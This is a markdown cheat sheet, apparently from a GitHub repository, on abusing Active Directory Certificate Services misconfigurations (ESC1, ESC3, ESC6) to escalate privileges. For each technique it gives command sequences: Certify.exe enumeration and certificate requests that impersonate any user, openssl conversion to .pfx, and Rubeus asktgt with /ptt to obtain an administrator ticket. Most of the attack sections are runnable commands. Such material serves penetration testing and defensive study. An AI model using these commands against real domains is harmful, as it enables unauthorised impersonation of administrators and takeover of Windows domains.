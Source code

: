 ## Active Directory Certificate Services (AD-CS)

### Privilege Escalation with AD-CS Abuse

- ESC 1: Enrolle can request cert for any user
- ESC 3: Request an enrollment agent certificate and use it to request certificate on behalf of any user
- ESC 6: EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CA - Request certs for any user

> **Note:** The required misconfigurations needed for the above mentioned abuses are mentioned below
1. CA grants regular/low-privileged users enrollment rights.
2. Manager approval is disabled
3. Authorization signatures are not required
4. The target template grants regular/low-privileged users enrollment rights

#### Enumerate AD CS in target forest
- `Certify.exe cas` (We can check for `Access \t Rights \t Principal` Section for enrollment rights, please note this data present in tabular format, I have mentioned `\t` above to note that the data is actally a table header and `\t` is just a tab, not a literal)

#### Enumerate AD CS Templates
- `Certify.exe find` (the switch `/vulnerable` can be used to identify vulnerable CA templates)

#### ESC1: Enrolle can request cert for any user
- To find vulnerable certificate templates for any user, we can issue the command `Certify.exe find /enrolleSuppliesSubject`
- The template will have a value `ENROLLE_SUPPLIES_SUBJECT` for `msPKI-Certificate-Name-Flag` attribute. 

`````Powershell
# Request Certificate
> Certify.exe request /ca:<CA FQDN>\<Certification Authority> /template:<CA template> /altname:<impersonate user>
# Copy and paste the certificate data to a .pem file

# Convert .pem to .pfx file
> openssl pkcs12 -in <path\to\cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <path\to\cert.pfx>

# Request TGT with Rubeus
> Rubeus.exe asktgt /user:administrator /certificate:<path\to\cert.pfx> /password:<some password> /ptt
`````

#### ESC 3: Request an enrollment agent certificate and use it to request certificate on behalf of any user

- `pkiextendedkeyusage` attribute of the vulnerable certificate should contain the value `Certificate Request Agent`.

- The `Enrollment Rights` attribute under permissions lists the users which request enrollment.
- To request and abuse a certificate, use the below snippet

- We will need another certificate template that allows domain authentication and application policy requires a certificate request agent.
    - The `Application Policies` attribute of the certfication template should contain the value `Certificate Request Agent`.
    - The `Enrollment Rights` attribute of the certfication template should contain a value for `Domain Users` group.

`````Powershell
# Find vulnberable certificate template that acts as a Certificate Request Agent
> Certify.exe find /vulnerable

# Find certificate template of which, the application policy requires a certificate request agent
> Certify.exe find 

# Request Enrollment Agent Certificate
> Certify.exe request /ca:<CA FQDN>\<Certification Authority> /template:<CA enrollment agent template>

# Convert .pem to .pfx file
> openssl pkcs12 -in <path\to\cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <path\to\enroll-agent-cert.pfx>

# Request a certificate using the Enrollment Certificate
> Certify.exe request /ca:<CA FQDN>\<Certification Authority> /template:<CA template> /onbehalfof:<impersonate user> /enrollcert:<path\to\enroll-agent-cert.pfx> /enrollcertpw:<some password>

# Convert .pem to .pfx file
> openssl pkcs12 -in <path\to\cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <path\to\cert.pfx>

# Convert .pem to .pfx file (with Rubeus.exe)
> Rubeus.exe asktgt /user:administrator /certificate:<path\to\cert.pfx> /password:<some password> /ptt
`````

#### ESC 6: EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CA - Request certs for any user
In the enumeration phase of AD-CS with `Certify.exe cas`, we found the details of the Certification Authority. 

- If the `UserSpecifiedSAN` attribute of the CA is set to `EDITF_ATTRIBUTESUBJECTALTNAME2`, then the CA is vulnerable to ESC6 Privilege Escalation Attacks.

- We can request a certificate for any user from a template that allow enrollment for normal/low-privileged users.

`````powershell
# Find certificate template of which allows enrollment rights for low-privileged\domain users\users to a group which current user belong
> Certify.exe find 

# Request certificate
Certify.exe request /ca:<CA FQDN>\<Certification Authority> /template:<CA template> /altname:<impersonate user>

# Convert .pem to .pfx file
> openssl pkcs12 -in <path\to\cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <path\to\cert.pfx>

# Request TGT with Rubeus
> Rubeus.exe asktgt /user:administrator /certificate:<path\to\cert.pfx> /password:<some password> /ptt
`````